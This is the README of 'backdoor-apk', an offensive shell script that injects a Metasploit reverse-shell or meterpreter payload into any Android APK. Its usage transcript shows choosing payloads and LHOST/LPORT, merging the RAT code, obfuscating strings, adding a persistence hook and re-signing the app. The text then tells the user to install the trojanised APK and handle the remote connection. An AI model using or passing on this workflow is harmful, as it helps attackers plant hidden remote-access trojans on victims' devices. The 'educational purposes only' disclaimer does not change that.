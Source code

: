 # backdoor-apk
backdoor-apk is a shell script that simplifies the process of adding a backdoor to any Android APK file. Users of this shell script should have working knowledge of Linux, Bash, Metasploit, Apktool, the Android SDK, smali, etc. This shell script is provided as-is without warranty of any kind and is intended for educational purposes only.

Usage:

```
root@kali:~/Android/evol-lab/BaiduBrowserRat# ./backdoor-apk.sh BaiduBrowser.apk
          ________
         / ______ \
         || _  _ ||
         ||| || |||          AAAAAA   PPPPPPP   KKK  KKK
         |||_||_|||         AAA  AAA  PPP  PPP  KKK KKK
         || _  _o|| (o)     AAA  AAA  PPP  PPP  KKKKKK
         ||| || |||         AAAAAAAA  PPPPPPPP  KKK KKK
         |||_||_|||         AAA  AAA  PPP       KKK  KKK
         ||______||         AAA  AAA  PPP       KKK  KKK
        /__________\
________|__________|__________________________________________
       /____________\
       |____________|            Dana James Traversie

[*] Running backdoor-apk.sh v0.2.2 on Fri Mar 31 22:30:34 EST 2017
[+] Android payload options:
1) meterpreter/reverse_http   4) shell/reverse_http
2) meterpreter/reverse_https  5) shell/reverse_https
3) meterpreter/reverse_tcp    6) shell/reverse_tcp
[?] Please select an Android payload option: 2
[?] Please enter an LHOST value: 10.6.9.31
[?] Please enter an LPORT value: 443
[+] Handle the payload via resource script: msfconsole -r backdoor-apk.rc
[*] Generating RAT APK file...done.
[*] Decompiling RAT APK file...done.
[*] Decompiling original APK file...done.
[*] Merging permissions of original and payload projects...done.
[*] Running proguard on RAT APK file...done.
[*] Decompiling obfuscated RAT APK file...done.
[*] Creating new directories in original project for RAT smali files...done.
[*] Copying RAT smali files to new directories in original project...done.
[*] Fixing RAT smali files...done.
[*] Obfuscating const-string values in RAT smali files...done.
[*] Locating smali file to hook in original project...done.
[*] Adding hook in original smali file...done.
[*] Adding persistence hook in original project...done.
[*] Recompiling original project with backdoor...done.
[*] Generating RSA key for signing...done.
[*] Signing recompiled APK...done.
[*] Verifying signed artifacts...done.
[*] Aligning recompiled APK...done.
root@kali:~/Android/evol-lab/BaiduBrowserRat#
```

The recompiled APK will be found in the 'original/dist' directory. Install the APK on a compatible Android device, run it, and handle the meterpreter connection via the generated resource script: msfconsole -r backdoor-apk.rc
